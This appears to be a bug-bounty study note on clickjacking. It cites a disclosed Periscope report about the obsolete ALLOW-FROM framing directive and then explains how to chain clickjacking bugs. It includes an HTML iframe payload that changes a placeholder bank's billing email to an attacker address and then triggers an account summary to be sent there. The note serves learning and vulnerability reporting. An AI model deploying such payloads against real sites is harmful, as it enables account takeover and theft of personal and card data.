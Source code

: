>[!Periscope]
>is a live streaming video application, and on July 10, 2019, it was found to be vulnerable to a clickjacking vulnerability, You can find the disclosed bug report at https://hackerone.com/reports/591432/

The site was using the `X-Frame-Options:ALLOW-FROM` directive to prevent clickjacking
but it’s an obsolete directive that isn’t supported by many browsers. This means that all features on the subdomains https://canary-web.pscp.tv and https://canary-web.periscope.tv were vulnerable to clickjacking if the victim was using a browser that didn’t support the directive, such as the latest Chrome, Firefox, and Safari browsers, an attacker could for example, frame the settings page and trick users into deactivating their accounts.

# Escalating the Attack

>Focus on the application’s ==most critical functionalities== to achieve maximum business impact like (bank transfers functionalities)

## Chaining with other vulns
applications often send or disclose information according to user preferences. If you can change these settings via clickjacking, you can often induce sensitive information disclosures
### example of clickjacking chain
Let’s say that `bank.example.com` contains multiple clickjacking. One of them allows attackers to change an account’s billing email, and another one allows attackers to send an account summary to its billing email. The malicious page’s HTML looks like this:
#### HTML code example to chain two clickjacking vulns
```html
<html>
 <h3>Hunter</h3>
 <!--changing the victim email first to your own account-->
 <iframe 
 src="https://bank.example.com/change_billing_email?email=attacker@attacker.com" 
 width="500" height="500">
 </iframe>
 <!--then make the victim send an account summary to your email address to leak the information contained in the account summary report-->
 <iframe src="https://bank.example.com/send_summary" width="500" height="500">
 </iframe>
</html>
```
- you might be able to collect data including the street address, phone numbers, and credit card information associated with the account!
- Note that for this attack to succeed, the victim user would have to click the attacker’s site twice



## Chaining with CSRF 
Exploit Clickjacking to achieve CSFRF
look at [[Cross-Site Request Forgery (CSRF)#Exploit Clickjacking]] for more info
# A Note on Delivering the Clickjacking Payload
Often in bug bounty reports, you’ll need to show companies that real attackers could effectively exploit the vulnerability you found. That means you need to understand how attackers can exploit clickjacking bugs in the wild
